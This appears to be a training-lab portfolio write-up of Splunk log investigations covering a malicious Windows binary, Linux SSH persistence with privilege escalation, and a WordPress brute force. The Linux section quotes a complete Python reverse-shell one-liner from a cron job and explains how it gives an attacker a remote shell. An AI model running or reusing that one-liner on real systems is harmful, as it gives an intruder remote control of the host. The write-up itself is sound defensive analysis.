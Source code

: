 # Log Analysis & Threat Detection with SIEM (Splunk)

## Windows Log Analysis (Practice Scenario)
**Scenario:** I investigated an alert about a suspicious network connection on port 5678 from host WIN-105.
![Windows query filtering to EventCode=3, port 5678, WIN-105](pics/windows-1.png)  
![Expanded Sysmon EventCode=3 with process image and destination](pics/windows-2.png)  

From the query results, the IP address that the connection was established with was 10.10.114.80 (the destinationIP).
Sharepoint.exe was the process that initiated that suspicious connected as the image field with eventcode=3 shows the full path of the process: Image: C:\Windows\Temp\SharePoInt.exe

Since I know the process that initiated this suspicious connection, I can extract the MD5 hash values to fingerprint a malicious binary 

![Hash extraction for SharePoInt.exe](pics/windows-3.png)

**Findings:** EventCode 3 logs revealed outbound traffic initiated by Sharepoint.exe to a remote IP. The process hash was extracted and identified as malicious.
**Recommendations:** 
- Block/hash‑ban `SharePoInt.exe` hash across EDR/AV; quarantine artifact from `%SystemRoot%\Temp`.
- Constrain execution from `Temp` directories (AppLocker/WDAC).  
- Alert on Sysmon **Event ID 3** for unusual destinations/ports and **Event ID 1** for process creation from temp.

## Linux Log Analysis (Practice Scenario)
**Scenario**
I received an alert indicating possible persistence through the creation of a new remote-SSH user on an Ubuntu server. My task is to investigate the logs in Splunk (index=task5) and determine exactly what occurred.

Time stamp of the remote-ssh account creation: 08/12/25 9:52:57.170 AM (useradd remote-ssh)
![Auth log timeline and sudo/su events around user creation](pics/linux-1.png)  



User Escalating Privileges: jack-brown (successfully escalated to root)
![Zoom on sudo/su session open/close with command context](pics/linux-2.png)  


Now i will use process-sshd to find the ip address of the user who escalated privileges to root (jack brown) and look  for SSHD “Accepted password” logs in auth.log
![Accepted/Failed password events with client IP](pics/linux-3.png)  


The second event shows : sshd[25955]: Accepted password for jack-brown from 10.14.94.82 port 54451 ssh2, showing the source IP to be 10.14.94.82


There were 4 failed login attempts before the successful login, which also list the same source IP (10.14.94.82)
![Filtering sshd events and Accepted/Failed sequences](pics/linux-4.png)

During Linux log analysis, I identified a malicious cron job configured with a Python reverse shell. The code attempted to establish a persistent outbound connection to the attacker at IP 10.10.33.31 on port 7654. This confirmed the persistence mechanism was set to maintain remote access via reverse shell.

**The Splunk query was:**

index=task5 source="syslog" process=CRON

This pulled log entries related to scheduled jobs (cron tasks). Cron is often abused by attackers for persistence because it executes commands at intervals.

The log output contains a suspicious cron job that executes Python one-liners:

python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("10.10.33.31",7654)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); 
p=subprocess.call(["/bin/sh","-i"]);'

**Breakdown of python one-liner:**

socket.socket(...) → Creates a network socket.

s.connect(("10.10.33.31",7654)) → Connects to IP 10.10.33.31 on port 7654.

os.dup2(s.fileno(),0/1/2) → Redirects standard input, output, and error to the socket (so the attacker can control the shell remotely).

subprocess.call(["/bin/sh","-i"]) → Spawns an interactive shell.

**Findings**
Remote-SSH Account Creation: 2025-08-12 09:52:57
User Escalating Privileges: jack-brown (successfully escalated to root)
Source IP: 10.14.94.82
Failed Login Attempts Prior to Success: 4
Persistence Mechanism Port: 7654

**Analysis**
This activity demonstrated persistence via creation of a new SSH user, followed by brute-force attempts and successful privilege escalation to root. By correlating login timestamps, user actions, and source IP addresses, I confirmed malicious activity and documented indicators of compromise (IOC).

**Recommendations:** 
- Enforce **SSH key‑based auth**, disable password auth; limit to allow‑listed IPs with `sshd_config` + firewall.
- Monitor `useradd`, `/etc/passwd` diffs, and `/etc/sudoers` changes; alert on new admin users.
- Audit **cron**: lock down `/etc/crontab`, `/etc/cron.*`, and user crontabs; baseline and alert on changes.
- Egress filtering: block outbound to **10.10.33.31:7654** and similar high‑risk ports.


## Web Log Analysis (Practice Scenario)
**Scenario**
I received an alert about a spike in activity on the organization’s web server. My task was to investigate web logs (index=task6) in Splunk to determine the source, nature, and classification of the activity.
Looking for URI path that had the highest number of requests, path/wp-login.php had the highest, at 905 requests. Since there’s 905 requests, this is likely to be a brute force attack:
![Field discovery showing /wp-login.php dominating requests](pics/weblog-1.png)  


Identified the IP Address that was the source of the activity connected to /wp-login.php as 10.10.243.134 as shown through the clientip as well as the tool the threat actor used via useragent, identified as WPScan :
![Event detail: clientip, referrer, method=POST, useragent=WPScan](pics/weblog-2.png)


**Findings**
URI Path with Highest Requests: /wp-login.php
Source IP Address: 10.10.243.134
Classification: Brute-force attack targeting WordPress login endpoint
Threat Actor Tool: WPScan (identified via user-agent string in the logs)

**Analysis**
This attack represented a credential brute-force attempt against the WordPress login portal. By correlating repeated requests to /wp-login.php from the same source IP and identifying the user-agent string belonging to WPScan, I confirmed the activity as automated brute forcing.

**Response Recommendation**
- Rate‑limit `/wp-login.php`, enable **MFA** and **account lockout**.
- Deploy **WAF** rules for brute‑force patterns; 
- Keep WordPress & plugins patched; consider CAPTCHA on login.




## Indicators of Compromise (IOCs)
![IOCS](pics/IOCs.png)